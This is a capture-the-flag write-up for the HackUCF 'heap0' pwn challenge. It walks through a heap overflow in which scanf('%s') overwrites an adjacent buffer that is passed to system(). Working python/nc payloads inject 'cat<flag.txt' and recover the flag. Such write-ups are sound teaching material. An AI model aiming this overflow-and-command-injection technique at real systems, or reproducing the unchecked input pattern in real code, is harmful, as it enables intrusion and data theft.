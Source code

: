 # heap0
**Category:** Pwn

**Points:** 10

**Description:**

Author: kcolley
nc ctf.hackucf.org 7003

> **Files: heap0, heap0.c, libpwnableharness32.so

## Write-up
This seems to be a heap overflow problem. 

When the program is run, it asks you to enter a username, and then performs an `ls`:
```bash
> ./heap0 
username at 0x58210008
shell at 0x58210040
Enter username: chris
Hello, chris. Your shell is /bin/ls.
heap0  heap0.c	libpwnableharness32.so
```
When run on the server, we can see the flag.txt is listed:
```bash
> nc ctf.hackucf.org 7003
username at 0x581e1008
shell at 0x581e1040
Enter username: hello
Hello, hello. Your shell is /bin/ls.
flag.txt
heap0
```
We can also see from the output that the `username` comes before the `shell` in memory, and there is 56 (0x38) bytes between them. This is the 50 bytes of data plus some extra `malloc()` information.

A look at the code shows these are created on the heap and `scanf()` is used to get the user input into the `username` variable:
```c
void handle_connection(int sock) {
	char* username = malloc(50);
	char* shell = malloc(50);
	
	printf("username at %p\n", username);
	printf("shell at %p\n", shell);
	
	strcpy(shell, "/bin/ls");
	
	printf("Enter username: ");
	scanf("%s", username);
	
	printf("Hello, %s. Your shell is %s.\n", username, shell);
	system(shell);
}
```
Whatever is in the `shell` variable is executed by the `system()` function, so if we can get that `shell` to contain `/bin/cat flag.txt` we may be able to see the flag contents.

First I check that writing 56 characters as the username does impact on the `shell` variable without crashing the program:
```bash
> python -c "print('A' * 56)" | ./heap0 
username at 0x569ac008
shell at 0x569ac040
Enter username: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA. Your shell is .
```

So 56 had some effect on the `shell` (erasing its contents altogether), so I tried 57:
```bash
> python -c "print('A' * 57)" | ./heap0 
username at 0x57722008
shell at 0x57722040
Enter username: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA. Your shell is A.
sh: 1: A: not found
```
That last 'A' now appears in the `shell`. Can I put a `cat` command in there?
```bash
python -c "print('A' * 56 + 'cat heap0.c')" | ./heap0 
username at 0x56651008
shell at 0x56651040
Enter username: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat. Your shell is cat.
```
Only the `cat` part got through, but not the `heap0.c`. After playing around for a while, I realized it was `scanf()` interpreting a space as an end to input, so I needed to find another method to display the file contents.

After some though I realized that another form of `cat heap0.c` would be `cat < heap0.c` which can be specified without spaces:
```bash
python -c "print('A' * 55 + '\0cat<heap0.c')" | ./heap0
username at 0x56dd9008
shell at 0x56dd9040
Enter username: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA. Your shell is cat<heap0.c.
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "pwnable_harness.h"
...
```
> Note: I also added the `\0` to neaten it up, but this isn't really necessary!

This printed out the contents of the C file, so now I'd tested it locally, I could run it on the server with `flag.txt`:
```bash
python -c "print('A' * 55 + '\0cat<flag.txt')" | nc ctf.hackucf.org 7003
username at 0x5718c008
shell at 0x5718c040
Enter username: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA. Your shell is cat<flag.txt.
```
This worked, and gave me the flag.
